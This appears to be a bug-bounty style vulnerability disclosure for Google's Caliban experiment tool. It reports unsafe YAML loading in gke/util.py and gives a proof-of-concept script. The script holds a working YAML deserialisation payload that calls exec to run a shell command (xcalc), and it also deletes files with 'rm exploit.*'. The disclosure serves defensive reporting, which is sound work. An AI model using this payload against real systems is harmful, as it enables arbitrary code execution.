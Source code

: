 # Description
Caliban is a tool that helps researchers launch and track their numerical experiments in an isolated, reproducible computing environment. It was developed by machine learning researchers and engineers, and makes it easy to go from a simple prototype running on a workstation to thousands of experimental jobs running on Cloud.
* **Vulnerability discription**
Vulnerable to yaml deserilisation attack caused by unsafe loading.
# Proof of Concept
* [vulnerable part of code](https://github.com/google/caliban/blob/56f96e7e05b1d33ebdebc01620dc867f7ec54df3/caliban/platform/gke/util.py#L790)
```python
job_spec = yaml.load(f, Loader=yaml.FullLoader)
```
```python
# exploit.py
import os
os.system('pip install caliban')
import caliban.platform.gke.util as ut
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('rm exploit.*')
open('exploit.yaml','w+').write(exploit)
ut.parse_job_file('exploit.yaml')
```
![](https://cdn.discordapp.com/attachments/789769803770494996/791701814150955028/Screenshot_from_2020-12-24_21-37-49.png)
